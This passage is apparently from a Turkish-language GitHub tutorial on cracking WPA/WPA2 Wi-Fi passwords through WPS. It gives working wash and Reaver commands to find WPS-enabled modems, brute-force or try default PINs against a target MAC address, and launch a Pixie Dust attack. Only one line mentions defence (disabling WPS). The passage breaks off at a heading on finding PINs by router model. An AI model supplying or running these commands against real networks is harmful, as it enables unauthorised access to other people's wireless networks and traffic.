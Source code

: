 **⏳ Süre: WPS brute-force saldırısı birkaç saat sürebilir.**

**🛑 Korunma: Reaver saldırılarından korunmak için WPS’yi kapat ve güçlü bir WPA2/WPA3 şifresi kullan.**

_______________________________________________________________________________________-

### Reaver ile Hazır PIN'ler Nasıl Bulunur?

Bazı modemlerin varsayılan WPS PIN kodları üreticiler tarafından belirlenmiştir. Reaver, bu varsayılan PIN’leri kullanarak WPA/WPA2 şifresini hızlıca kırabilir.

**🔹 1️⃣ WPS Açık Modemleri Tarama**

Öncelikle, WPS açık olan modemleri bulmak için aşağıdaki komutu kullan:
```bash
wash -i wlan0mon --ignore-fcs
```

### Bu komut:

WPS açık olan modemleri gösterir.

MAC adreslerini listeler.

**🔹 2️⃣ Varsayılan WPS PIN'leri ile Deneme**

Bulduğun modem için varsayılan WPS PIN’lerini Reaver kullanarak deneyebilirsin:
```bash
reaver -i wlan0mon -b XX:XX:XX:XX:XX:XX -p 12345670 -vv
```

## 📌 Açıklamalar:

-b XX:XX:XX:XX:XX:XX → Modemin MAC adresini gir.

-p 12345670 → Bilinen varsayılan WPS PIN’iyle giriş yapmayı dener.

-vv → Detaylı çıktı almak için kullanılır.

**💡 Varsayılan PIN’leri öğrenmek için bazı kaynaklar:**

**🔹 3️⃣ Bulunan PIN'leri Kullanarak WPA/WPA2 Şifresini Kırma**

Eğer modem bilinen varsayılan bir WPS PIN kullanıyorsa, bu PIN’i aşağıdaki gibi kullanarak WPA/WPA2 şifresini öğrenebilirsin:
```bash
reaver -i wlan0mon -b XX:XX:XX:XX:XX:XX -p 12345670 -vv
```

### Eğer modem Pixie Dust açığına sahipse, saldırıyı hızlandırabilirsin:

```bash
reaver -i wlan0mon -b XX:XX:XX:XX:XX:XX -K 1 -vv
```
-K 1 → Pixie Dust saldırısını başlatır (bazı modemlerde saniyeler içinde şifreyi çözer).

**🔹 4️⃣ Router Modeline Göre PIN Bulma**
